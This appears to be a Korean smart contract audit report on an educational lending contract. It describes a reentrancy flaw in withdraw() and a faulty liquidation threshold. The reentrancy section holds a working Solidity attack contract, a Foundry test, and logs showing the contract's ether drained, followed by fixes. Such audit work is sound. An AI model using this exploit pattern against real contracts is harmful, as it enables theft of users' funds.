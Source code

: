 ## 김남령

## 미구현된 부분: Accured Interest, Healthy

## 1. Reentrancy

### 설명

문제 코드: DreamAcademyLending.sol 내 withdraw() 함수 전체

withdraw 함수에서 예치한 이더리움 담보를 보낼 때 담보에 대한 정보를 업데이트 하지 않은 채로 송금을 먼저 수행하기 때문에 발생한 문제이다.

```java
function withdraw(address _tokenAddress, uint256 _amount) external{
  _update();
  uint256 availableWithdraw =  vaults[msg.sender].borrowUSDC *1e18 / oracle.getPrice(address(0x0)) * LTV / 100;
  VaultInfo memory tempVault = vaults[msg.sender];

  require(tempVault.collateralETH >= _amount, "INSUFFICIENT_AMOUNT");
  require(tempVault.collateralETH - availableWithdraw >= _amount);

  tempVault.collateralETH -= _amount;
  (bool success, ) = payable(msg.sender).call{value: _amount}("");
  require(success, "ERROR");

  vaults[msg.sender] = tempVault;

}
```

withdraw 함수는 tempVault라는 지역변수를 선언해 사용자의 담보 정보를 가져오는데, 이를 업데이트하는 `vaults[msg.sender] = tempVault;` 구문이 송금 이후에 위치해있다. 이는 Checks - Effects - Interaction 패턴에 벗어나며, 외부 함수의 호출로 인한 reentrancy 취약점이 발생할 수 있다.

### 파급력

Critical

-   산정 이유
    -   공격자가 1 wei만 가지고 있더라도 연속적인 공격 수행으로 lending 컨트랙트의 모든 이더리움 담보를 탈취할 수 있다.
-   공격 시나리오

    ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
          lending = _lending;
          owner = msg.sender;
      }

      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 1 ether");
        (bool success, )= address(lending).call{value: msg.value}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), msg.value));
        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), msg.value));
      }

    	function transfer() public payable {
        (bool success,) = msg.sender.call{value: address(this).balance}("");
      }

      receive() external payable {
    	  uint targetBalance = address(lending).balance;
    	  if(targetBalance > 100 ether){
          (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
    	  }
      }
    }
    ```

    -   위와 같이 reentrancy를 유발하는 컨트랙트를 작성할 수 있다.
    -   공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    -   receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    -   Lending 컨트랙트 내에서 아직 vault의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    -   모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트의 모든 자산을 갖게 된다.
    -   이렇게 탈취한 자산은 공격자가 가져갈 수 있다.

    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
        (bool success1,) = address(reentrancy).call{value: 100 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
        (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
    }
    ```

    ```java
    [PASS] testReentrancy() (gas: 657090)
    Logs:
      user1 balance 1000
      reenter balance 0
      lending balance 1000
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      user1 balance 2000
      reenter balance 0
      lending balance 0
    ```

### 해결 방안

-   이더리움 송금 구문 이전에 vault의 값을 업데이트해주어야 한다

## 2. False Liquidation Threshold

### 설명

문제 코드: DreamAcademyLending.sol 내 liquidate함수, 111번 줄

-   Liquidation threshold를 계산하는 과정이 잘못되었다. 담보가 아닌 ETH의 가격을 기준으로 청산 기준을 결정하였다.
-   또한 등호를 추가해야 한다.

```java
uint price = vaults[_user].borrowUSDC * (oracle.getPrice(address(0x0))/oracle.getPrice(_tokenAddress));
require(price > oracle.getPrice(address(0x0))*75/100);
```

-   빌린 USDC의 가치를 ETH 기준으로 환산한 값과 현재 ETH 가격을 비교해서 75% 이하인 경우 청산을 시작한다.
-   Liquidation은 빌린 돈의 가치가 “담보”의 75% 아래일 때를 기준으로 계산해야 한다.
-   현재는 담보를 1 ETH로 가정하고 식을 세웠다.

### 파급력

High

-   산정 이유
    -   DEX의 효용성을 매우 떨어뜨리며, 공격의 접근성이 아주 높다.
    -   담보를 1 ETH로 고정해두었기 때문에 부채가 클수록 청산되기 쉽다.


### 해결 방안

-   등호를 추가해야 하며, 1 ETH가 아닌 실제 담보가치가 부채보다 25% 이상 낮을 경우 청산이 시작되도록 고친다.

```java
require(price >= ${Collateral_Amount} * oracle.getPrice(address(0x0)) * 75/100);
```
